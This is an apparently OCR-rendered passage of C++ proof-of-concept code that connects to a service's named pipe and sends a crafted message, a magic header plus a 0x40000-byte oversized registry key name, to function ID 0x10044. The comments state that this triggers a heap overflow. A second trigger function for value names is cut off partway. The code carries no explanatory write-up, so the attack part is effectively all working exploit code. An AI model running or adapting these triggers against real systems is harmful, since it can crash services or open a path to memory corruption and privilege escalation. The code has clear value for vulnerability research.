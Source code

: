 ```C++
    TRUE on success, otherwise FALSE
*/
BOOL CallPipeFunction(DWORD dwFunctionId, PBYTE pInput, DWORD dwInSize, PBYTE pOutput, DWORD dwOutSize)
{
	unk1 u1 = { 0 };
	u1.dwMagic = 0x4B375453;
	u1.dwSomeMagic = 0x1010;
	u1.dwInSize = 28;
	u1.dwFunctionId = dwFunctionId;
	u1.dwInputDataSize = dwInSize;

	DWORD dwBytesWritten = 0;
	if (!WriteFile(g_hPipe, &u1, sizeof(u1), &dwBytesWritten, NULL))
	{
		printf("WriteFile 1 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	if (!WriteFile(g_hPipe, pInput, dwInSize, &dwBytesWritten, NULL))
	{
		printf("WriteFile 2 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}


void Vuln_HeapOverflow_CreateKey()
{
	DWORD dwSize = 0x40000;
	PCHAR pszData = (char*)VirtualAlloc(NULL, dwSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memset(pszData, 'A', dwSize);

	// Create a Key Name that is too large for the memory in the service
	PSTR pszString = "[HKLM\\";
	memcpy(pszData, pszString, strlen(pszString));

	pszData[dwSize - 3] = ']';
	pszData[dwSize - 2] = '\r';
	pszData[dwSize - 1] = 0x00;

	// Setup our pipe connection
	if (!InitPipe())
	{
		printf("Error: InitPipe failed\r\n");
		return;
	}

	// This will trigger the heap overflow
	if (!CallPipeFunction(0x10044, (PBYTE)pszData, dwSize, NULL, 0))
	{
		printf("Error: CallPipeFunction failed");
		return;
	}
}

void Vuln_HeapOverflow_ValueName()
{
	DWORD dwSize = 0x40000;
	PCHAR pszData = (char*)VirtualAlloc(NULL, dwSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memset(pszData, 'A', dwSize);
```